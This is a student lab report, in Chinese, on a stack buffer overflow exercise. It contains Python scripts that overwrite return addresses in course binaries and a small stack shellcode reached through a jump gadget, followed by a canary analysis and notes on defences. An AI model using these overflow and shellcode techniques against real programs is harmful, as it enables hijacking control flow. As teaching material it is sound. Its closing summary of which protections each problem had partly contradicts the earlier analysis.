


# 栈溢出攻击实验

学号：2024201552
姓名：周孟潇

## 题目解决思路

### Problem 1: 
- **分析**：
    - `func`函数中调用了`strcpy`, 可以用来注入恶意字符串
    - 在`func1`函数中，通过`x/s 0x402004`, 发现0x402004这个地址储存的就是"Yes!I like ICS!"，即为我们的目标输出
    - 而分析`func`易知我们的输入字符串会被copy到`rbp-8`的位置，根据栈上的情况，只需要构造长度为16B的任意字符串再拼接func1地址`0x401216`，即可使return address被覆盖为`0x401216`

- **解决方案**：
``` Python
func1_addr = b'\x16\x12\x40\x00\x00\x00\x00\x00'  # 小端序
payload = b'A' * 16 + func1_addr

with open('ans1.txt', 'wb') as f:
    f.write(payload)
```

- **结果**：

### Problem 2:
- **分析**：
    - `func`函数中调用了`memcpy`, 可以用来注入恶意字符串
    - 在`func2`函数中，通过`x/s 0x40203b`, 发现0x40203b这个地址储存的就是"Yes!I like ICS!"，即为我们的**目标输出**，我们的目标可以确定为将memcpy的return value覆盖为打印"Yes!I like ICS!"这一块代码的起始地址，即为0x40124c
    - 栈的结构与problem1类似：我们的输入字符串会被copy到`rbp-8`的位置，根据栈上的情况，只需要构造长度为16B的任意字符串再拼接func1地址`0x40124c`，即可使return address被覆盖为`0x40124c`

- **解决方案**：
```Python
func1_addr = b'\x4c\x12\x40\x00\x00\x00\x00\x00'  # 小端序
payload = b'A' * 16 + func1_addr

with open('ans2.txt', 'wb') as f:
    f.write(payload)
```

- **结果**：

### Problem 3: 
- **分析**：
    - `func`函数中调用了`memcpy`, 可以用来注入恶意字符串
        - 注意到`memcpy`的第三个参数edx = 0x40, 说明构造字符串的长度不得超过0x40B
    - 注意到`func`中存储了当前rsp的内容，存储在`<saved_rsp>`，通过搜索发现函数`jmp_xs`使用了这个值，具体如下：
    ```asm
      40133c:	48 8b 05 cd 21 00 00 	mov    0x21cd(%rip),%rax        # 403510 <saved_rsp> 取出栈顶指针
      401343:	48 89 45 f8          	mov    %rax,-0x8(%rbp) 
      401347:	48 83 45 f8 10       	addq   $0x10,-0x8(%rbp) # 得到栈顶+16，即为dest起点
      40134c:	48 8b 45 f8          	mov    -0x8(%rbp),%rax # 栈顶+16
      401350:	ff e0                	jmp    *%rax # 跳转到 rax 寄存器中存储的地址去执行
    ```
    - 通过分析这段汇编代码，我们发现它的作用是跳转到我们目标字符串的起点处开始执行代码
    - 因为本题未设置`Nxenabled`，因此想到在栈上构造shell code
    - 我希望最大化利用已有代码，发现`func1`还没有使用过
    - 分析汇编代码可知，`func1`接收一个参数rdi，如果rdi=114，就打印一个字符串，具体内容是以下16进制映射为ascii码的对应内容
    ``` asm
    movabs $0x63756c2072756f59,%rax # "Your luc"
    ...
    movabs $0x65626d756e20796b,%rdx # "ky numbe"
    ...
    movabs $0x3431312073692072,%rax # "r is 114"
    ```
    拼接起来正是`"Your lucky number is 114"`，可作为我们的**目标字符串**
    - 于是我们基于此意图构造shell code: `mov $114 %rdi`, 之后再jmp到`func1`处(`0x401216`)执行代码, 这段汇编代码的长度不应超过40B
    - 我们构造的字符串结构为`shellcode + padding + jmp_xs_addr`，其中`shellcode + padding`的长度为40B

- **解决方案**：
```Python
import struct

def p64(addr):
    """将 64 位地址打包为小端序字节"""
    return struct.pack('<Q', addr)

# 关键地址
func1_addr = 0x401216
jmp_xs_addr = 0x401334
# 构造shell code, length = 7 + 2 + 8 + 2 = 19B < 40B
shellcode = b''
shellcode += b'\x48\xC7\xC7\x72\x00\x00\x00'  # mov 0x72, rdi
shellcode += b'\x48\xB8' + p64(func1_addr)     # mov func1_addr, rax
shellcode += b'\xFF\xE0'                        # jmp rax
# 构造payload
payload = b''
payload += shellcode                               # offset 0x00: shellcode
payload += b'\x00' * (0x28 - len(payload))        # padding 到返回地址
payload += p64(jmp_xs_addr)                        # offset 0x28: 覆盖返回地址
payload += b'\x00' * (64 - len(payload))          # padding 到 64 字节
# 保存到文件
with open('ans3.txt', 'wb') as f:
    f.write(payload)
```
- **结果**：

### Problem 4:
- **分析**：

  **1. Canary保护的识别**

  在所有函数中，都能看到典型的canary保护代码模式：

  ```asm
  problem4.asm:334-337  (main函数)
  142f:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax        # 从fs段读取canary值
  1436:	00 00
  1438:	48 89 45 f8          	mov    %rax,-0x8(%rbp)      # 将canary保存到栈上

  ... (函数执行过程中)

  problem4.asm:140e-1417  (main函数返回前)
  140e:	64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax        # 再次读取canary
  1415:	00 00
  1417:	74 05                	je     141e <main+0xae>     # 比较canary，相等则正常返回
  1419:	e8 b2 fc ff ff       	call   10d0 <__stack_chk_fail@plt>  # 不相等则调用__stack_chk_fail
  ```

  **Canary保护机制**：
  - 在函数序言（prologue）中，从`%fs:0x28`处读取canary值（这是一个随机值，存储在thread control block中）
  - 将canary值保存在栈帧的特定位置（通常是old rbp之前）
  - 在函数返回前，再次读取canary值并与栈上保存的值进行比较
  - 如果不匹配，说明发生了栈溢出，调用`__stack_chk_fail`终止程序
  - 这种机制可以有效防止通过覆盖返回地址进行的栈溢出攻击

  **2. 程序逻辑分析**

  通过GDB调试和汇编分析，程序流程如下：

  main函数流程:
  - 询问用户名字 (0x2070: "hi please tell me what is your name?")
  - 询问是否喜欢ICS (0x2098: "hi! do you like ics?")
  - 使用caesar_decrypt解密两个加密字符串
  - 提示需要足够的"元石" (0x20b0: "if you give me enough yuanshi,I will let you pass!")
  - 读取数字并调用func函数验证
  
  func函数流程
  - 比较输入值x与0xfffffffe (`cmp    -0x10(%rbp),%eax # 将x与0xfffffffe比较`)
  - 如果输入值x below 0xfffffffe，输出 "your money is not enough!" (0x203d)
  - 否则，进入循环：
  ``` asm
    13c0:	c7 45 ec 00 00 00 00 	movl   $0x0,-0x14(%rbp) # i in -0x14(%rbp) 初始化 i=0
    13c7:	eb 08                	jmp    13d1 <func+0x74>
    13c9:	83 6d e8 01          	subl   $0x1,-0x18(%rbp) # x in -0x18(%rbp) --
    13cd:	83 45 ec 01          	addl   $0x1, -0x14(%rbp) # i++
    13d1:	8b 45 ec             	mov    -0x14(%rbp),%eax  # 
    13d4:	3b 45 f0             	cmp    -0x10(%rbp),%eax # 将i与0xfffffffe比较
    13d7:	72 f0                	jb     13c9 <func+0x6c> # 如果i below 0xfffffffe就跳转 可以视作for循环
  ```
  翻译为CPP代码：
  
  ```cpp
  for(unsinged int i = 0; i < 0xfffffffe; i++) {
    x--;
  }
  ```

  - 循环结束后：检查x是否等于1 (`cmpl   $0x1,-0x18(%rbp)`)且原始输入值是否等于0xffffffff

  - 以上均满足，则调用func1输出成功信息，最后exit
  

  **3. 漏洞利用思路**

  通过分析func函数的逻辑得知输入数字的16进制补码表示一定要为0xffffffff，由`"%d"`易知输入为有符号int

  则输入`-1`后，程序会通过func函数的验证，最终输出通关提示。

- **解决方案**：

  对于最后一个问题输入`-1`即可通关

- **结果**：
  程序成功通关，输出了func1函数中的成功提示：

## 思考与总结

通过本次栈溢出攻击实验，我深入理解了栈溢出攻击的原理和防护机制，主要收获如下：

### 1. 栈溢出攻击的核心原理
- **栈帧结构**：理解了函数调用时栈帧的布局，包括返回地址、保存的基址指针、局部变量等
- **缓冲区溢出**：通过向固定大小的缓冲区写入超长数据，可以覆盖栈上的其他重要信息
- **控制流劫持**：精心构造输入数据覆盖返回地址，可以改变程序的执行流程，跳转到指定函数

### 2. 不同保护机制下的攻击策略
- **无保护（Problem 1）**：直接通过字符串注入覆盖返回地址
- **NX enabled（Problem 2）**：栈不可执行，需要跳转到程序内部已有的代码片段
- **长度限制+ASLR（Problem 3）**：需要在有限的字节内构造shellcode，并应对地址随机化
- **Canary保护（Problem 4）**：理解了canary保护机制，本题通过程序逻辑而非栈溢出解决问题

### 3. 技术要点总结
- **小端序**：x86-64架构使用小端序存储，地址的低位字节在低地址
- **指令编码**：学会了构造简单的shellcode，如`mov $imm, %rdi`、`jmp rax`等
- **GDB调试**：熟练使用GDB查看内存、反汇编、设置断点等
- **汇编分析**：能够阅读和理解x86-64汇编代码，追踪程序执行流程

### 4. 防护机制的理解
- **NX（Non-Executable）**：将栈标记为不可执行，防止在栈上注入并执行恶意代码
- **ASLR（Address Space Layout Randomization）**：随机化程序地址空间，增加攻击难度
- **Canary**：在栈中插入随机值（canary），在函数返回前检查其完整性，检测栈溢出

### 5. 遇到的困难与解决方案
- **Problem 3的挑战最大**：需要在不超长度限制的前提下构造shellcode，并理解程序的栈地址存储机制
  - 解决方法：仔细分析jmp_xs函数的实现，发现它从全局变量saved_rsp读取栈地址
  - 通过构造精简的shellcode（设置rdi=114，然后跳转到func1）在19字节内完成任务

### 6. 安全启示
- 不要使用不安全的函数（如strcpy、gets等）
- 对用户输入进行严格的长度检查
- 开启安全保护机制（Canary、NX、ASLR等）

## 参考资料

参考网络空间安全引论课程PPT的stack overflow部分
